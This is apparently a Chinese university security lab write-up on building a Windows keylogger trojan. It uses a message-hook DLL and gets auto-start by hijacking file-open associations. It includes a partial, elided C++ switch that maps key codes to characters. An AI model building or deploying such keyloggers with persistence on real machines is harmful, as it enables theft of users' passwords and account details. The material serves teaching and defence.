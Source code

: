 # 键盘木马及其自启

实验说明：键盘记录是木马常见的一种功能，主要用于窃取用户的账号、密码等机密信息，危害程度较高。熟悉键盘记录功能的实现原理，才能更好地进行防范。

实验目的：本实验通过 Windows 提供的消息钩子，实现一项具有键盘记录功能的木马，并结合实验 3 中劫持文件打开方式，实现木马的自启动功能，以此考查对实验内容的掌握情况。

实验内容：（1）实现键盘记录功能； （2）安装键盘记录木马； （3）木马自启动

参与作者：[lanpesk](https://lanpesk.github.io/)、[对酒当歌](https://blog.csdn.net/youyouwoxi)

# 实验步骤

## 实现键盘记录功能

（1）打开 VS，创建空的 DLL 项目，命名为 HookDll，然后向项目中添加源程序 hookdll.cpp。 

（2）完成消息钩子，以及安装、卸载钩子的代码，，修改第35 行代码，使得记录的按键值能够区分大小写字母和 shift、alt、ctrl 功能键。

Dll穷举法，使用switch case一个一个的破解出来

```cpp
void saveKeyToFile(int pressedKey)
{
	switch (pressedKey)
	{

	case 113:
		print("%s", "[F2]");
		break;
	case VK_CAPITAL:
		print("%s", "[CAPSLOCK]");
		break;
	case VK_LMENU:
		print("%s", "[LALT]");
		break;
	case VK_MULTIPLY:
		print("%s", "*");
		break;
……
	case 188:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
			print("%s", "<");
		else
			print("%s", ",");
		break;
……
	case 88:
		if (GetAsyncKeyState(VK_LSHIFT) | GetAsyncKeyState(VK_RSHIFT))
		{
			if (GetAsyncKeyState(VK_RMENU))
				print("%s", "");
			else
				print("%s", "X");
		}
		else if (GetAsyncKeyState(VK_RMENU))
			print("%s", "");
		else
			print("%s", "x");
		break;
……
		break;
	case VK_NUMPAD0:
		print("%s", "0");
		break;
```